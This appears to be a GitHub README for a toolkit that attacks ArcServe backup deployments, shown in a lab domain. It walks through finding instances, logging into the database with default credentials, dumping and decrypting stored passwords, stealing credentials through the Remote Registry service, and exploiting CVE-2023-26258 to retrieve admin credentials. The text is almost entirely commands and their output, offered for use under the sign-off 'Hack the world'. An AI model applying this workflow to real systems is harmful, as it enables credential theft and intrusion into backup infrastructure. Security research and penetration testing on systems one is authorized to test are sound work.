 The **TL; DR;**

If you are in the network you can scan for instances configured by default using `ArcServeRadar.py`. I tried to port it to C# but couldn't, feel free to do it if you know how :)

```bash
c:\Users\vagrant\Desktop>python ArcServeRadar.py "Ethernet 2" 6969 192.168.56.20
                -=[ ArcServe Finder ]=-


[*] Starting to monitor
[*] Broadcasting
WARNING: Mac address to reach destination not found. Using broadcast.
        [+] 192.168.56.10 => ServerName;KINGSLANDING;InstanceName;ARCSERVE_APP;IsClustered;No;Version;15.0.2000.5;tcp;62197;;
```
If it is configured by default you can use default DB creds to connect to the IP and port obtained before and read the username/password plus where the ArcServe instances are located using `ArcServe-dbpwner.py`:

```bash

host@host:/tmp|⇒  python3 arcserve-dbpwn.py -target 192.168.56.10 -port 62197
		-=[ ArcServe credential retriever (from DB) ]=-


[*] Connecting to the server
[*] Login with default creds
[*] Extracting credentials:
	[+] User: SEVENKINGDOMS\vagrant
	[+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter
	[+] User: SEVENKINGDOMS\vagrant
	[+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter
[*] Finding hosts:
	[+] 192.168.56.10 | kingslanding.sevenkingdoms.local | Windows Server 2019 Datacenter Evaluation
	[+] 192.168.56.10 | kingslanding.sevenkingdoms.local | NULL


 Hack the world
```

All the passwords retrieved by the tools can be decrypted using `ArcServeDecrypter.exe`. Just edit the C code to add the array, compile and execute it:

```bash
C:\Users\vagrant>C:\Users\vagrant\source\repos\ArcServeDecrypter\x64\Debug\ArcServeDecrypter.exe
                -={ ArcServe Decryptor }=-

[+] Decrypted string: vagrant
```

If you have a user with local admin privileges on the server where ArcServe is installed you can read the credentials using Remote Registry service (`arcserve-regkeys.py`):

```bash
host@host:/tmp|⇒  python3 arcserve-creds.py -u eddard.stark -p 'FightP3aceAndHonor!' -d sevenkingdoms.local -target-ip 192.168.56.20
		-=[ ArcServe Credential Stealer ]=-
[+] Connecting to 192.168.56.20
[+] Checking Remote Registry service status...
[+] Service is down!
[+] Starting Remote Registry service...
[+] Connecting to 192.168.56.20
[+] Opening registry key
	[*] User: P3TWLADS11STD\vagrant
	[*] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98}; // Paste it to the decrypter
[+] Stopping Remote Registry Service

Hach the world
```

Finally, if the ArcServe version was not patched (**CVE-2023-26258**) you can exploit an authentication bypass in the management web interface and retrieve the admin creds (`ArcServe-exploit.py`):

```bash
host@host:/tmp|⇒  python3 exploit.py 192.168.56.10
		-=[ ArcServe Pwner ]=-


[*] Triggering info leak
	[+] AdminName: SEVENKINGDOMS\vagrant
	[+] AuthUUID: 6bf37b8e-ac4f-487d-8d74-d6d0a8d9b8d1
[*] Getting a valid session
	[+] Session: AGENTJSESSIONID=CA35EF18A4FF2F85E25538F60C3F7428
[*] Doing an authenticated request to validate if session is valid
[*] Session is valid
	[+] Admin: SEVENKINGDOMS\vagrant
	[+] Password: {133, 60, 97, 192, 158, 159, 25, 141, 58, 250, 174, 169, 141, 216, 104, 98} // Paste it to the decrypter


Hack the world
```

So here ends the summary of tools that you can find here.
